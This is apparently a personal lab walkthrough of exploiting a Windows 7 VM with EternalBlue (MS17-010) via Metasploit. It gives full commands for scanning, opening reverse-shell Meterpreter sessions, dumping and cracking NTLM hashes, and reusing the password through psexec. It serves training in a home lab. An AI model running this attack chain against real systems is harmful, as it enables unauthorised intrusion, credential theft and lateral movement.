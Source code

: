 # 🔥 EternalBlue Exploit Walkthrough - Windows 7 Lab

# link: https://academy.tcm-sec.com/courses/1152300/lectures/34117487
## 📌 Objective

Exploit a vulnerable Windows 7 machine using MS17-010 (EternalBlue), gain Meterpreter access, dump NTLM password hashes, and crack them.

---

## 🧱 Lab Setup

| System       | IP Address   | Role                  |
| ------------ | ------------ | --------------------- |
| Kali Linux   | 192.168.178.37 | Attacker (Metasploit) |
| Windows 7 VM | 192.168.178.38 | Target (SMB enabled)  |

**Network Mode**: Both VMs set to **Bridged Adapter** mode (in VMware)

### 🔎 Finding the VM on the network

* Both Kali and Windows 7 are in bridged mode to appear on the same LAN subnet.
* On Kali, used the following to discover live hosts:

```bash
nmap -sn 192.168.178.0/24
```

Identified the Windows 7 VM at `192.168.178.38`.

---

## 🔍 1. Check for MS17-010 Vulnerability

```bash
nmap -p 445 --script smb-vuln-ms17-010 192.168.178.38
```

📉 Output:

```
PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
| smb-vuln-ms17-010:
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|     Disclosure date: 2017-03-14
|     References:
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
```

---

## 💣 2. Exploit with Metasploit

```bash
msfconsole
use exploit/windows/smb/ms17_010_eternalblue
set RHOST 192.168.178.38
set LHOST 192.168.178.37
set LPORT 4444
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set EXITFUNC thread
exploit
```

📉 Result:

```bash
[*] Sending stage ...
[*] Meterpreter session 1 opened
```

---

## 🛠️ 3. Post-Exploitation (Hash Dump)

### View sessions:

```bash
sessions
sessions -i 1
```

### Dump password hashes:

```bash
hashdump
```

🖜 Extracted NTLM hashes:

```
user:1000:...:2b576acbe6bcfda7294d6bd18041b8fe:::
```

---

## 🔐 4. Crack NTLM Hash

### Attempt with hashcat + rockyou:

```bash
echo "2b576acbe6bcfda7294d6bd18041b8fe" > hash.txt
hashcat -m 1000 -a 0 hash.txt /usr/share/wordlists/rockyou.txt
```

🔴 Status: **Exhausted (not found)**

### Cracked online via CrackStation.net:

```
Password123!
```

---

## 🛋️ 5. Reuse via Psexec with Plaintext Password

```bash
use exploit/windows/smb/psexec
set RHOST 192.168.178.38
set SMBUser user
set SMBPass Password123!
set LHOST 192.168.178.37
set LPORT 4444
set PAYLOAD windows/meterpreter/reverse_tcp
exploit
```

📉 Result:

```
[*] Meterpreter session 2 opened
```

---

## 🔒 Takeaways

* EternalBlue is still exploitable in unpatched environments
* Hashdump + NTLM cracking is a fast route to further access
* Even simple passwords like `Password123!` are still common
* Pass-the-Hash and plaintext reuse are both viable

---

## 📒 Suggested Notion Location

```
Labs > SMB Exploits > EternalBlue > win7-lab-walkthrough.md
```

---

✅ End of walkthrough — consider chaining to privilege escalation or lateral movement next.
